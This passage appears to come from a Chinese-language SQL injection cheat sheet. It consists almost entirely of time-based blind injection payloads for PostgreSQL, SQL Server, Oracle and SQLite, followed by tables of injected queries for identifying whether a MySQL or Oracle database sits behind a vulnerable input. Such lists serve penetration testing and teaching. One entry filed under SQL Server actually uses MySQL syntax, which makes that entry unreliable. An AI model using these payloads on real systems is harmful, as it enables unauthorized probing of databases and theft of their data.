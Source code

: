 PostgreSQL:

```sql
1' and pg_sleep(5)
1' || pg_sleep(5)
```

SQL Server:

```sql
1' WAITFOR DELAY '0:0:5'
1' AND (SELECT 1 FROM (SELECT count(*),CONCAT((SELECT (SELECT SLEEP(5)) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=CHAR(109,97,115,116,101,114)),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a)--
```

Oracle:

```sql
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',5)
1' AND DBMS_LOCK.SLEEP(5)
```

SQLite:

```sql
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```

## 2.DBMS识别

MySQL识别：
|描述|查询语句|
|----|----|
|睡眠|id=1'-SLEEP(1)=0 LIMIT 1 --|
|BENCHMARK|id=1'-BENCHMARK(5000000, ENCODE('Slow Down','by 5 seconds'))=0 LIMIT 1 --|
|字符串拼接|id=' 'mysql' –<br>'my' 'sql'<br>CONCAT('my','sql')|
|函数|connection_id() --<br>row_count() --<br>POW(1,1) --|
|错误信息|id='|
|默认变量|@@version_compile_os<br>@@version<br>@@basedir<br>@@datadir|
|比较函数|conv('a',16,2)=conv('a',16,2)<br>connection_id()=connection_id()<br>crc32('MySQL')=crc32('MySQL')|

Oracle识别：
|描述|查询语句|
|----|----|
|字符串拼接|id='\|\|'oracle' --|
|函数|BITAND(1,1) –|
|默认表|id='UNION SELECT 1 FROM v$version --|
|错误信息|id='|
|睡眠|dbms_pipe.receive_message(('a'),10)|
|默认变量|SELECT banner FROM v$version<br>SELECT version FROM v$instance|
|比较函数|ROWNUM=ROWNUM<br>RAWTOHEX('AB')=RAWTOHEX('AB')|
